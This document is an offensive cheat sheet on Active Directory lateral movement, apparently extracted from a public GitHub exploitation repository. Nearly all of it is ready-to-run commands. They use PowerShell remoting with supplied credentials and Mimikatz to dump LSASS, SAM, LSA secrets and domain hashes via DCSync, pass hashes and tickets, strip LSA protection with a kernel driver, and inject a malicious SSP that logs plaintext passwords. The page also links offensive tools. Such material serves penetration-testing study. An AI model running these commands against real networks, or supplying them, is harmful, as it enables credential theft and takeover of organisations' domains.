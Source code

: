 # Active Directory Lateral Movement

## Lateral Movement

### Powershell Remoting

Enable Powershell Remoting on current Machine \(Needs Admin Access\)

```text
Enable-PSRemoting
```

Entering or Starting a new PSSession \(Needs Admin Access\)

```text
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

### Remote Code Execution with PS Credentials

```text
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```

#### Import a PowerShell module and execute its functions remotely

Execute the command and start a session

```text
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess
```

Interact with the session

```text
Enter-PSSession -Session $sess
```

#### Executing Remote Stateful commands

Create a new session

```text
$sess = New-PSSession -ComputerName <NameOfComputer>
```

Execute command on the session

```text
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
```

Check the result of the command to confirm we have an interactive session

```text
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

### Mimikatz

These commands are in cobalt strike format!

Dump LSASS:

```text
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords
```

\(Over\) Pass The Hash

```text
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>
```

List all available kerberos tickets in memory

```text
mimikatz sekurlsa::tickets
```

Dump local Terminal Services credentials

```text
mimikatz sekurlsa::tspkg
```

Dump and save LSASS in a file

```text
mimikatz sekurlsa::minidump c:\temp\lsass.dmp
```

List cached MasterKeys

```text
mimikatz sekurlsa::dpapi
```

List local Kerberos AES Keys

```text
mimikatz sekurlsa::ekeys
```

Dump SAM Database

```text
mimikatz lsadump::sam
```

Dump SECRETS Database

```text
mimikatz lsadump::secrets
```

Inject and dump the Domain Controler's Credentials

```text
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject
```

Dump the Domain's Credentials without touching DC's LSASS and also remotely

```text
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all
```

List and Dump local kerberos credentials

```text
mimikatz kerberos::list /dump
```

Pass The Ticket

```text
mimikatz kerberos::ptt <PathToKirbiFile>
```

List TS/RDP sessions

```text
mimikatz ts::sessions
```

List Vault credentials

```text
mimikatz vault::list
```

What if mimikatz fails to dump credentials because of LSA Protection controls? 

* LSA as a Protected Process \(Kernel Land Bypass\)

Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1

```text
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
```

Next upload the mimidriver.sys from the official mimikatz repo to the same folder of your mimikatz.exe Now let's import the mimidriver.sys to the system

```text
mimikatz # !+
```

Now let's remove the protection flags from lsass.exe process

```text
mimikatz # !processprotect /process:lsass.exe /remove
```

Finally, run the logon passwords function to dump lsass

```text
mimikatz # sekurlsa::logonpasswords
```

* LSA as a Protected Process \(Userland Land "Fileless" Bypass\)
  * [PPLdump](https://github.com/itm4n/PPLdump)
  * [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
* LSA is running as virtualized process \(LSAISO\) by Credential Guard

Check if a process called lsaiso.exe exists on the running processes

```text
tasklist |findstr lsaiso
```

If it does there isn't a way to dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data. Let's inject our own malicious Security Support Provider into memory, for this example, I'll use the one Mimikatz provides

```text
mimikatz # misc::memssp
```

Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log

* [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
* [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

#### Useful Tools

* [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward 

  capabilities.

* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
* [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe

## References

This was extracted from here:

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#lateral-movement" %}



